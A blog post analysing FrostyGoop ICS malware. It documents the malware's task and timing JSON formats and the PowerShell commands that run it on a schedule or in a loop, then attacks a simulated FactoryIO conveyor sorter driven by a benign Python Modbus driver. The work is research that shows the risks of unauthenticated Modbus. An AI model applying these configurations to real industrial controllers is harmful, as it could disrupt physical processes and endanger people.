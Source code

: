 ```yaml
---
title: "Functional Analysis of FrostyGoop ICS Malware pt. 2/2"
description: Playing around with FrostyGoop
draft: false
date: 2024-07-28T09:00:00+01:00
publishDate: 2024-07-28T09:00:00+01:00
tags: ["cyber security", "malware", "analysis", "functional", "stuxnet", "havex", "industroyer", "reverse engineering", "ICS", "OT", "FactoryIO", "hacking", "frostygoop"]
---
```


Taking FrostyGoop to the next level and attacking a simulated sorting machine.

## Introduction

While analysing the FrostyGoop ICS malware in my previous [blogpost](https://www.remyjaspers.com/blog/frostygoop) I had way too much fun with analyzing the Modbus TCP protocol and its security (or lack thereof). Not being able to use the timing and automating bit of the malware haunted me and I wanted to fully understand it. Shoutout to Nozomi for their awesome [writeup](https://www.nozominetworks.com/blog/protecting-against-frostygoop-bustleberm-malware) of the malware. They were able to reverse engineer the task_test.json file which I was still figuring out. 

Armed with this knowledge, I wanted to take this malware and experimentation with unauthenticated Modbus to the next level. I experimented some more with the timing commands until I got them to work. 

After I show some more details on how to run the commands to time execution of FrostyGoop, I will build a small lab to have something more interesting to look at than the ModRssim2 table of register values :yawning_face:.  After [digging](https://rodrigocantera.com/en/modbus-tcp-packet-injection-with-scapy/) around, I found this awesome [industrial conveyor belt color sorter ](https://community.factoryio.com/t/sort-by-color-conveyor-system/222) scenario in a ICS simulation software called [FactoryIO](https://factoryio.com/). FactoryIO allows to interact with it using software from many ICS vendors (Siemens, Rockwell etc. ) This looks like the perfect candidate for a more realistic attack scenario! Before we attack this sorting station however, let's have a brief look at how FrostyGoop's timed execution works.

![img/sorting_machine.jpg](img/sorting_machine.jpg)

## FrostyGoop Timing

As the folks from Nozomi showed, FrostyGoop can be run with a tasklist JSON file that lays out the steps to automatically attack Modbus appliances. This greatly helps in foregoing the repetitive task of providing command line arguments for each Modbus message to be sent. This file assumes the following format:

```JSON
{
    "Iplist" : ["127.0.0.1"],
    "Tasks" : [
        {
            "Code" : 16,
            "Address" : 0,
            "Value" : 8000,
            "Count" : 3
        }
    ]
   
}
```

After playing around with the sample for a bit longer I found out how to use the *StartTime*, *PeriodTime*, *WaitTime* and *IntervalTime* variables. We can provide these in a *separate* JSON file so FrostyGoop's execution can be delayed, repeated, or scheduled. Unfortunately I was only able to set the StartTime in hours, but I found no way to make it work with a UTC date/time string. This "cycle info" JSON file has the following format:

```JSON
{
 "StartTime" : "13:20:00",
 "IntervalTime" :  "1ms",
 "PeriodTime" : "1ms",
 "WorkTime" : "20s"
} 

```

| Command | Explanation |
|-|-|
|StartTime | UTC time string to schedule execution (HH:MM:SS)|
|IntervalTime | Time between executions |
|PeriodTime | Not sure about this one|
| WorkTime | Length of time for the malware to repeat execution (20 seconds)|

To execute the malware with the timing info, the following command can be used:

```Powershell
.\mb.exe -cycle .\cycle.json -input-task .\task_test.json
```

You can also just execute this malware in a Powershell loop, but this provides less flexibility:

```Powershell
While (1) { ./mb.exe -input-task ./task_test.json; }
```
## Driving the sorting station

The project files I found on the FactoryIO community were great but only provided Rockwell PLC driver code for the project and a proprietary ControlIO driver. Neither of them suited my purposes very well as I don't want to learn an entire software stack just to prove a point :grinning_face: . So I decided to cook something up myself. 

Before we can interact with FactoryIO, we have to configure it as a Modbus TCP/IP server, with the following settings. The other settings are left to their defaults, but it is important to set the Slave ID to 254 (because FrostyGoop for some reason sets this as the default?). Other settings are left to their defaults:

![img/factoryio_modbus_config.png](img/factoryio_modbus_config.png)
 
FactoryIO shows a nice overview of all the registers that can be read and/or written to. By connecting the various sensors and actuators to the right registers, we are able to send Modbus commands to drive them. I configured the sensors and actuators as follows:

![img/modbus_register_overview.png](img/modbus_register_overview.png)

I decided to just write a small driver in Python using the [pyModbus](https://pypi.org/project/pymodbus/) library. This code is probably devoid of any decent PLC programming practices (I have zero experience with that stuff). Regardless, it works for our purposes. It reads the Modbus registers that store the sensor (vision, laser) values and drives the actuators (load pushers, conveyor belt etc.) based on those values, and sorts the conveyed parts in their respective buckets. 

```Python
from pymodbus.client import ModbusTcpClient
from pymodbus.exceptions import ModbusException
import time

SLAVE = 254

c = ModbusTcpClient('127.0.0.1')   # Create client object
c.connect()                        # connect to device, reconnect automatically

# Reset 
c.write_coil(0, 1, SLAVE); # emitter start
c.write_coil(1, 0, SLAVE); # load pusher reset

c.write_coil(2, 0, SLAVE); # pusher 1 reset
c.write_coil(3, 0, SLAVE); # pusher 2 reset
c.write_coil(4, 0, SLAVE); # pusher 3 reset

c.write_register(7, 0, SLAVE); #reset belt speed
c.write_register(14, 0, SLAVE); # conveyor belt off

while c.connected:

        part_ready = c.read_discrete_inputs(0, 1, SLAVE).bits[0];
        part_pres_1 = c.read_discrete_inputs(1, 1, SLAVE).bits[0];
        part_pres_2 = c.read_discrete_inputs(2, 1, SLAVE).bits[0];
        part_pres_3 = c.read_discrete_inputs(3, 1, SLAVE).bits[0];
        
        load_pusher_adv = c.read_discrete_inputs(4, 1, SLAVE).bits[0];
        load_pusher_ret = c.read_discrete_inputs(5, 1, SLAVE).bits[0];

        metal_bin = c.read_discrete_inputs(5, 1, SLAVE).bits[0];
        blue_bin = c.read_discrete_inputs(6, 1, SLAVE).bits[0];
        green_bin = c.read_discrete_inputs(7, 1, SLAVE).bits[0]
        reject_bin = c.read_discrete_inputs(8, 1, SLAVE).bits[0];

        metal_detect = c.read_input_registers(2, 1, SLAVE).registers[0];
        blue_detect = c.read_input_registers(1, 1, SLAVE).registers[0];
        green_detect = c.read_input_registers(0, 1, SLAVE).registers[0];
        
        metal_retract = c.read_input_registers(5, 1, SLAVE).registers[0];
        blue_retract = c.read_input_registers(4, 1, SLAVE).registers[0];
        green_retract = c.read_input_registers(3, 1, SLAVE).registers[0];

        belt_speed = c.read_input_registers(7, 1, SLAVE).registers[0];
        conv_off = c.read_discrete_inputs(14, 1, SLAVE).bits[0];
        
        if conv_off:
                c.write_register(7, 0, SLAVE); # Reset belt speed
        else:
                c.write_register(7, belt_speed, SLAVE); # Set belt speed based on knob
                
        if part_pres_1:
                c.write_coil(0, 0, SLAVE); # Emitter disable
        else:
                c.write_coil(0, 1, SLAVE); # Emitter enable

        if not part_ready and load_pusher_ret:
                c.write_coil(1, 1, SLAVE); # Load pusher adv
       
        if load_pusher_adv:
                c.write_coil(1, 0, SLAVE); # Load pusher retract
    
        if metal_detect == 9 and part_pres_3:
                c.write_register(2, 0x7FFF, SLAVE); # Pusher metal adv
        else:
                c.write_register(2, 0x8000, SLAVE); # Pusher metal retract
        
        if blue_detect == 2 and part_pres_2:
                c.write_register(1, 0x7FFF, SLAVE); # Pusher blue adv
        else:
                c.write_register(1, 0x8000, SLAVE); # Pusher blue retract
        
        if green_detect == 5 and part_pres_1:
                c.write_register(0, 0x7FFF, SLAVE); # Pusher green adv
        else:
                c.write_register(0, 0x8000, SLAVE); # Pusher green retract
        
        time.sleep(0.1);
```

Under normal operation, the color sorter works as intended, putting the metal, blue and green lids, and the small paper boxes in their respective bucket (sped up 4x for your viewing pleasure). Warning: please have some patience, the GIFs below may take a while to load. If you don't see anything yet, please refresh the page. 

![Normal Operation](img/normal_operation.gif)

Let's attack this sorting machine and see what happens. 

## Attacking the sorting station with FrostyGoop

Using the aforementioned task and cycle info JSON files, we run FrostyGoop to target the sorting machine. Twenty seconds of sending crafted Modbus messages is all it takes to throw the sorting machine into disarray:

![Attacked](img/attacked_operation.gif)

## Conclusion

This hopefully reinforces the point that using unauthenticated Modbus TCP is a *bad* idea. Even rather unsophisticated malware like FrostyGoop can do real damage if deployed under the right circumstances. 

Thanks for reading until the end. If you have any questions or suggestions feel free to drop me a message on Linkedin or Xitter (@st0yky).
